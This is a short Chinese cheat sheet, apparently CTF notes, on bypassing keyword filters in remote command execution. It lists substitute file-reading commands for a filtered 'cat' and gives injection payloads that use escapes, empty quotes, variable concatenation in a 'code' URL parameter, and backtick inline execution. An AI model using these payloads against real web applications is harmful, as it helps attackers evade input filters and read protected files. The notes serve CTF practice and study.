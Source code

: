 [TOC]



## RCE(命令、代码执行)总结



### 1、过滤cat、flag等关键字

#### 1.1 常见linux系统命令

```shell
more:一页一页的显示档案内容
less:与 more 类似
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看
file -f:报错出具体内容
strings
rev
```

#### 1.2 使用转义符

```shell
ca\t fl\ag ;
```

#### 1.3 使用引号

```shell
ca''t  fl''ag;
```

#### 1.4 内联执行绕过

拼接 `flag`

```php
?code=a=ag;b=fl;cat $b$a;   //相当于 cat flag
```

第二种:

```php
//当前目录下有 index.php、flag.php
cat `ls`;
//相当于 cat index.php;cat flag.php, 将ls命令的结果给cat去执行
```

